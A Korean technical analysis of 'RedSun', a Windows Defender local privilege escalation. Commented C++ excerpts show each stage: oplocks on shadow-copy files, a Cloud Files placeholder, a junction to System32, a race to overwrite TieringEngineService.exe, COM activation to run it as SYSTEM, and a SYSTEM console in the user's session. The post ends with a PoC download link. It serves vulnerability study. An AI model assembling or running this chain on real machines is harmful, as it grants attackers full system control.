

## Summary

RedSun으로 알려진 본 취약점은 Windows Defender의 악성 파일 복원 경로에서 발생하는 로컬 권한 상승(LPE, Local Privilege Escalation) 취약점이다.

Defender는 악성 파일을 탐지하면 보통 삭제하지만, 그 파일에 Cloud Files placeholder 태그가 붙어 있으면 삭제 대신 원래 경로로 복원한다. 문제는 이 복원이 SYSTEM 권한으로, 그리고 사용자가 제어하는 경로를 다시 검증하지 않고 그대로 따라간다는 점이다.

그래서 공격자는 복원될 경로를 C:\Windows\System32로 향하는 junction으로 바꿔둔다. 그럼 Defender는 복원을 하면서 System32 안에 파일을 만들어주는데, 이 파일은 일반 사용자도 쓸 수 있는 상태로 생성된다. 즉 SYSTEM 권한으로 원하는 위치에 파일을 쓰는 것이 가능해지는 것이다.

최종적으로 실행되는 건 복원된 악성 파일이 아니다. 복원되는 파일의 내용은 무해한 EICAR 문자열이고, 복원이 열어준 그 쓰기 가능한 경로 위에 실제 악성 파일을 TieringEngineService.exe로 덮어쓴다. 그 후, COM을 활성화해서 SCM이 그 파일을 SYSTEM 권한으로 실행하게 된다.

## Technical Details

먼저 전체적인 흐름은 다음과 같다.



그럼 이제 좀 더 자세하게 알아보자.

```cpp
HANDLE hpipe = CreateNamedPipe(L"\\??\\pipe\\REDSUN", PIPE_ACCESS_DUPLEX | FILE_FLAG_FIRST_PIPE_INSTANCE, NULL, 1, NULL, NULL, NULL, NULL);
if (hpipe == INVALID_HANDLE_VALUE)
    return 1;
```

main 함수가 시작되면 REDSUN named pipe를 만든다. 
이는 마지막에 SYSTEM 권한을 가진 후, 원래 프로세스의 세션 ID를 알아내는데 사용된다.

```cpp
wchar_t workdir[MAX_PATH] = { 0 };
ExpandEnvironmentStrings(L"%TEMP%\\RS-", workdir, MAX_PATH);

GUID uid = { 0 };
wchar_t wuid[100] = { 0 };
CoCreateGuid(&uid);
StringFromGUID2(uid, wuid, 100);
wcscat(workdir, wuid);
wchar_t filename[] = L"TieringEngineService.exe";
wchar_t foo[MAX_PATH];
wsprintf(foo, L"%ws\\%ws", workdir, filename);
```

named pipe가 제대로 생성이 되었다면, %TEMP%\RS-{GUID} 형태의 임시 경로를 만들고, 그 안에 TieringEngineService.exe라는 파일의 경로를 구성한다.

```cpp
DWORD tid = 0;
HANDLE hthread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)ShadowCopyFinderThread, foo, NULL, &tid);
```

그 후, ShadowCopyFinderThread 함수를 실행하는 스레드를 하나 생성한다.

앞으로 이 스레드를 ShadowCopyFinderThread 스레드라고 부르겠다.

ShadowCopyFinderThread 함수는 간단하게 말해서 새로운 VSS를 찾고, 해당 경로의 파일에 oplock을 거는 작업을 진행한다.

```cpp
stat = _NtOpenDirectoryObject(&hobjdir, 0x0001, &objattr);
. . .
LLShadowVolumeNames* vsinitial = RetrieveCurrentVSSList(hobjdir, &criterr, &vscnum);
```

ShadowCopyFinderThread 스레드는 먼저 Object Manager의 \Device 디렉터리를 열고, 그 안의 HarddiskVolumeShadowCopy* 항목을 모아 현재 VSS 목록을 저장한다.

여기서 VSS(Volume Shadow Copy)란 볼륨의 특정 시점 스냅샷이다. 각 스냅샷은 \Device\HarddiskVolumeShadowCopyN 형태로 노출되는데, 지금 현재 목록을 미리 저장해두는 이유는 이후에 새로 생기는 VSS를 골라내기 위해서 이다.

```cpp
scanagain:
    do
    {
        stat = _NtQueryDirectoryObject(hobjdir, objdirinfo, reqsz, FALSE, restartscan, &scanctx, &retsz);
        . . .
    } while (1);

    . . .
    // 저장해둔 VSS 목록에 없는 새 VSS를 찾는다
    . . .

    if (!srchfound) {
        restartscan = true;
        goto scanagain;
    }
```

ShadowCopyFinderThread 스레드는 저장해둔 목록과 비교하여 새 VSS가 나타날 때까지 무한 재스캔을 한다.

즉 이 스레드는 새 VSS가 나타날 때까지 재스캔 루프를 계속 도는 상태이다. 새 VSS는 뒤에서 main이 EICAR 파일로 Defender를 자극한 뒤 생성되었다.

```cpp
wcscat(malpath, &foo[2]);   // foo[2]로 앞의 C:를 떼고 VSS device path 뒤에 붙임
. . .
stat = NtCreateFile(&hlk, DELETE | SYNCHRONIZE, &objattr2, &iostat, NULL, FILE_ATTRIBUTE_NORMAL, NULL, FILE_OPEN, NULL, NULL, NULL);
. . .
DeviceIoControl(hlk, FSCTL_REQUEST_BATCH_OPLOCK, NULL, NULL, NULL, NULL, NULL, &ovd);
. . .
SetEvent(gevent);
ResetEvent(gevent);
GetOverlappedResult(hlk, &ovd, &nbytes, TRUE);

WaitForSingleObject(gevent, INFINITE);
```

새 VSS를 찾으면 그 안의 %TEMP%\RS-{GUID}\TieringEngineService.exe 파일을 열어 batch oplock을 건 뒤, main에 신호를 보낸다.

여기서 batch oplock이란 파일에 거는 일종의 잠금이다. 다른 프로세스가 그 파일을 열려고 하면 break가 발생하고, 보유자가 핸들을 닫을 때까지 상대의 open이 보류된다. 즉, Defender가 해당 파일을 건드리는 순간을 정확히 잡아서 멈춰 세우는 용도로 쓰인다.

단, 이때 ShadowCopyFinderThread 스레드가 연 것은 VSS 스냅샷 안의 복사본이고, main이 다루는 실제 파일과는 다른 파일이다.

```cpp
if (!CreateDirectory(workdir, NULL))
{
    . . .
}

HANDLE hfile = CreateFile(foo, GENERIC_READ | GENERIC_WRITE | DELETE, FILE_SHARE_READ, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
. . .
char eicar[] = "*H+H$!ELIF-TSET-SURIVITNA-DRADNATS-RACIE$}7)CC7)^P(45XZP\\4[PA@%P!O5X";
rev(eicar);
. . .
WriteFile(hfile, eicar, sizeof(eicar) - 1, &nwf, NULL);

CreateFile(foo, GENERIC_READ | FILE_EXECUTE, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (WaitForSingleObject(gevent, 120000) != WAIT_OBJECT_0)
{
    . . .
}
```

이제 다시 main으로 와보자. main은 작업 디렉터리를 만들고 그 안에 EICAR 파일을 쓴 뒤, 실행 권한으로 다시 한 번 더 열어 Defender 실시간 검사를 유도한다. 그리고 ShadowCopyFinderThread 스레드 신호를 기다린다.

```cpp
FILE_DISPOSITION_INFORMATION_EX fdiex = { 0x00000001 | 0x00000002 };
_NtSetInformationFile(hfile, &iostat, &fdiex, sizeof(fdiex), (FILE_INFORMATION_CLASS)64);
CloseHandle(hfile);
DoCloudStuff(workdir, filename, sizeof(eicar) - 1);
```

ShadowCopyFinderThread 스레드로부터 신호를 받은 main은 실제 파일을 POSIX delete로 설정하고 핸들을 닫은 뒤, DoCloudStuff 함수로 작업 디렉터리를 Cloud Files sync root로 등록하고 같은 이름의 placeholder를 만든다.

여기서 POSIX delete란 DELETE에 POSIX semantics를 더한 것이다. 일반적인 delete-on-close와 다른 점은, 파일 이름이 즉시 떨어져 나가서 기존 핸들이 살아 있어도 같은 이름을 바로 다시 만들 수 있다는 점이다. 뒤에서 작업 디렉터리를 옮기고 같은 이름으로 다시 만드는 작업이 가능한 게 바로 이것 덕분이다.

```cpp
SetEvent(gevent);

WaitOnAddress(&gevent, &gevent, sizeof(HANDLE), INFINITE);
```

DoCloudStuff 함수의 작업이 끝나면 ShadowCopyFinderThread 스레드에게 신호를 보내고, 스레드가 oplock 핸들을 닫을 때까지 기다린다. 요청을 받은 스레드는 핸들을 닫고 함수를 끝낸다.

```cpp
MoveFileEx(workdir, _tmp, MOVEFILE_REPLACE_EXISTING);   // workdir -> \??\workdir.TMP
if (!CreateDirectory(workdir, NULL))                    // workdir 경로를 빈 디렉터리로 재생성
{
    . . .
}

stat = NtCreateFile(&hfile, FILE_READ_DATA | DELETE | SYNCHRONIZE, &_objattr, &iostat, &fsz, FILE_ATTRIBUTE_READONLY, FILE_SHARE_READ, FILE_SUPERSEDE, NULL, NULL, NULL);
. . .
DeviceIoControl(hfile, FSCTL_REQUEST_BATCH_OPLOCK, NULL, NULL, NULL, NULL, NULL, &ovd);
. . .
HANDLE hmap = CreateFileMapping(hfile, NULL, PAGE_READONLY, NULL, NULL, NULL);
void* mappingaddr = MapViewOfFile(hmap, PAGE_READONLY, NULL, NULL, NULL);

GetOverlappedResult(hfile, &ovd, &nbytes, TRUE);
```

이제부터가 핵심이다. 작업 디렉터리를 junction으로 바꿔야 하는데, 비어있지 않은 디렉터리는 junction으로 만들 수 없다. 그래서 기존 작업 디렉터리를 통째로 .TMP로 옮겨버리고, 같은 경로에 빈 디렉터리를 새로 만든다. 비워진 새 디렉터리 안에 새 spoof 파일을 만든 뒤, 이 파일에 oplock과 mapping을 건다.

oplock과 mapping을 왜 같이 거는지 알아보자. oplock은 앞에서 본 것처럼 Defender가 이 파일을 건드리는 순간을 잡아서 멈춰 세우는 역할을 한다. mapping은 파일을 메모리에 고정해서, oplock이 멈춰둔 Defender가 해당 파일에 대해 삭제나 치환을 하지 못하도록 막는 역할을 한다.

```cpp
{
    wchar_t _tmp[MAX_PATH] = { 0 };
    wsprintf(_tmp, L"\\??\\%s.TEMP2", workdir);
    . . .
    stat = _NtSetInformationFile(hfile, &iostat, pfri, sizeof(FILE_RENAME_INFORMATION) + (sizeof(wchar_t) * wcslen(_tmp)), (FILE_INFORMATION_CLASS)10);
    _NtSetInformationFile(hfile, &iostat, &fdiex, sizeof(fdiex), (FILE_INFORMATION_CLASS)64);
}

stat = NtCreateFile(&hrp, FILE_WRITE_DATA | DELETE | SYNCHRONIZE, &_objattr, &iostat, NULL, NULL, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, FILE_OPEN_IF, FILE_DIRECTORY_FILE | FILE_DELETE_ON_CLOSE, NULL, NULL);
. . .
wchar_t rptarget[] = { L"\\??\\C:\\Windows\\System32" };
. . .
rdb->ReparseTag = IO_REPARSE_TAG_MOUNT_POINT;
. . .
DeviceIoControl(hrp, FSCTL_SET_REPARSE_POINT, rdb, totalsz, NULL, NULL, NULL, NULL);
```

Defender가 oplock에 걸려 멈춰있을 때, 기존 파일을 .TEMP2로 옮기고 삭제 예약을 해둔다.

그리고 비워진 작업 디렉터리를 C:\Windows\System32로 향하는 junction으로 바꾼다.

여기서 junction(mount-point reparse point)이란 디렉터리가 다른 경로를 가리키도록 하는 연결이다.
예를 들어 %TEMP%\RS-{GUID}를 System32로 걸어두면, 이후 %TEMP%\RS-{GUID}\TieringEngineService.exe에 접근하는 게 실제로는 C:\Windows\System32\TieringEngineService.exe로 재해석된다.

정리하면, oplock으로 Defender를 복원 직전에 멈춰 세운 사이 복원될 경로를 System32로 바꿔치기 하는 것이다.

```cpp
CloseHandle(hfile);   // oplock 해제 -> 멈춰있던 Defender 복원 재개
for (int i = 0; i < 1000; i++)
{
    . . .
    stat = NtCreateFile(&hlk, GENERIC_WRITE, &objattr2, &iostat, NULL, NULL, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, FILE_SUPERSEDE, NULL, NULL, NULL);
    if (!stat)
        break;
    Sleep(20);
}
```

기존 파일의 핸들을 닫으면 멈춰있던 Defender가 복원을 재개하고, junction을 따라 System32에 TieringEngineService.exe를 생성한다. 

여기서 진행하는 루프는 Defender가 생성하는 파일에 대한 쓰기 핸들을 얻기 위해 레이스 컨디션을 진행하는 것이다.

```cpp
GetModuleFileName(GetModuleHandle(NULL), mx, MAX_PATH);
ExpandEnvironmentStrings(L"%WINDIR%\\System32\\TieringEngineService.exe", mx2, MAX_PATH);
CopyFile(mx, mx2, FALSE);
LaunchTierManagementEng();
Sleep(2000);
```

위의 레이스 컨디션이 성공한다면 복원된 파일에 대한 쓰기 권한을 얻었으니, RedSun.exe를 TieringEngineService.exe에 덮어쓴다. Summary에서 말했지만 실행되는 건 여기서 덮어쓴 RedSun.exe이다.

이후 LaunchTierManagementEng 함수에서 {50d185b9-fff3-4656-92c7-e4018da4361d} CLSID의 COM 객체를 활성화한다. 이 CLSID는 Storage Tiers Management 서비스, 즉 TieringEngineService에 연결되어 있어서, COM 활성화가 일어나면 SCM이 방금 덮어쓴 TieringEngineService.exe를 SYSTEM 권한으로 실행하게 된다.

```cpp
bool ret = IsWellKnownSid(tokenuser->User.Sid, WinLocalSystemSid);
if (ret) {
    LaunchConsoleInSessionId();
    ExitProcess(0);
}
```

TieringEngineService.exe가 실행되게 되면, 권한 검사를 진행하는데, 처음에는 사용자 권한으로 실행됐기 때문에 이 함수가 false를 반환하여 main이 진행됐지만, 지금은 SYSTEM 권한으로 실행됐기에 LaunchConsoleInSessionId 함수가 실행된다.

```cpp
HANDLE hpipe = CreateFile(L"\\??\\pipe\\REDSUN", GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
. . .
if (!GetNamedPipeServerSessionId(hpipe, &sessionid))
    return;
CloseHandle(hpipe);

. . .
bool res = DuplicateTokenEx(htoken, TOKEN_ALL_ACCESS, NULL, SecurityDelegation, TokenPrimary, &hnewtoken);
. . .
res = SetTokenInformation(hnewtoken, TokenSessionId, &sessionid, sizeof(DWORD));
. . .
CreateProcessAsUser(hnewtoken, L"C:\\Windows\\System32\\conhost.exe", NULL, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
```

LaunchConsoleInSessionId 함수는 처음에 만들어 둔 REDSUN named pipe 서버에 연결해서 세션 ID를 가져온 후, 현재 프로세스의 token을 복제한다.

그리고 복제한 토큰의 세션 ID를 서버 측 세션 ID로 덮어쓴다. 이렇게 하면 권한은 SYSTEM 그대로 유지하면서, 프로세스는 사용자가 보는 세션에 생성된다. 그래서 마지막에는 사용자 데스크톱에 SYSTEM 권한을 가진 콘솔이 뜨게 된다. 

## PoC

[PoC 파일 다운로드 (Google Drive)](https://drive.google.com/drive/folders/1nH7dfWsgUiFjui_YgDWeo_NHz5DJZ82X?usp=sharing)